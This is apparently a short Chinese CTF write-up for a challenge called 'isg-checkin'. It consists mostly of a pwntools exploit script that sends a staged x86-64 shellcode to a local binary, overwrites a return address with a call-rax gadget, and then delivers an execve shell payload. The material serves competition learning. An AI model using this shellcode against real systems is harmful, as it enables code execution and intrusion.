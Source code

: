 ```yaml
---
layout: post
title: "isg-checkin"
date: 2015-10-14 21:56:09 +0800
comments: true
categories: 
---
```


###0x00
先用小shellcode读到栈上，在得到shell  

不知道为什么在arch下不能exp，在ubuntu下可以

###0x01 exp

	from pwn import *

	shellcode = '\xb2\xff\x48\x89\xc6\x49\x89\xc2\x48\x31\xff\x48\x31\xc0\x0f\x05\x41\xff\xe2'

	call_rax = 0x000000000040070d
	r = process('./checkin')

	shellcode = shellcode.ljust(0xe+8, 'a')
	shellcode += p32(call_rax)
	shellcode = shellcode.ljust(28, '\x00')
	print r.recvuntil(':')
	r.sendline(shellcode)

	sleep(1)

	execsh = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
	shellcode2 = '\x49\x83\xc2\x13\x41\xff\xe2\xc2\x48\x31\xff\x48\x31\xc0\x0f\x05\x41\xff\xe2' 
	shellcode2 += execsh
	r.sendline(shellcode2)

	r.interactive()
